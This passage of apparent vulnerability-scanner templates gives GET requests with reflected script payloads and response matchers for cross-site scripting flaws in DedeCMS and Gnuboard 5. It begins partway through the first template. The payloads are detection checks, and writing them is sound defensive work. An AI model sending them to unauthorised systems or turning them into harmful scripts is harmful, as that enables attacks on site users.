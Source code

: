 - severity - high
- tags - dedecms,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/include/dialog/config.php?adminDirHand=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- part - body
- words
    1. location='../../\</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Gnuboard 5 - Cross-Site Scripting
## Description
- Gnuboard 5 contains a cross-site scripting vulnerability via the $_GET['LGD_OID'] parameter.

- severity - medium
- tags - gnuboard,xss,huntr
## Requests
- Method - GET
### URL
- {{BaseURL}}/mobile/shop/lg/mispwapurl.php?LGD_OID=%3Cscript%3Ealert(document.domain)%3C/script%3E
### Matchers

**Type - word**
- words
    1. LGD_OID = \<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---